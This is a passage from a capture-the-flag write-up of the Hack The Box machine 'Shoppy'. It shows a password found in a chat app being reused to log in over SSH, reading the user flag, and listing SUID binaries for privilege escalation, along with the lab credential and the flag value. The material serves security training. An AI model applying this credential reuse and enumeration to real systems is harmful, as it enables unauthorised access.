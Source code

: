 In the mattermost app, I can find a chat that reveals a new credential: `jaeger` : `Sh0ppyBest@pp!`
Since I couldn't find the username from previous user retrieval, I think I can use this credential to different service.. Maybe ssh(22)?

Plus, `josh` says that `docker` will be deployed on the system. We might need to enumerate to find docker system after getting a shell.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ssh jaeger@shoppy.htb
The authenticity of host 'shoppy.htb (10.10.11.180)' can't be established.
ED25519 key fingerprint is SHA256:RISsnnLs1eloK7XlOTr2TwStHh2R8hui07wd1iFyB+8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'shoppy.htb' (ED25519) to the list of known hosts.
jaeger@shoppy.htb's password: 
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jaeger@shoppy:~$ id
uid=1000(jaeger) gid=1000(jaeger) groups=1000(jaeger)
jaeger@shoppy:~$ ls
Desktop    Downloads  Pictures  ShoppyApp        Templates  Videos
Documents  Music      Public    shoppy_start.sh  user.txt
jaeger@shoppy:~$ cat user.txt
bc438c29d7aed07637d4b4a2109c763e
```

The credential works, and I can get a shell.



# Shell as `deploy`

### Enumeration
##### SUID
```swift
jaeger@shoppy:~$ find / -perm -4000 2>/dev/null
/usr/sbin/pppd
/usr/libexec/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/xorg/Xorg.wrap
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/ntfs-3g
/usr/bin/vmware-user-suid-wrapper
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/fusermount3
```
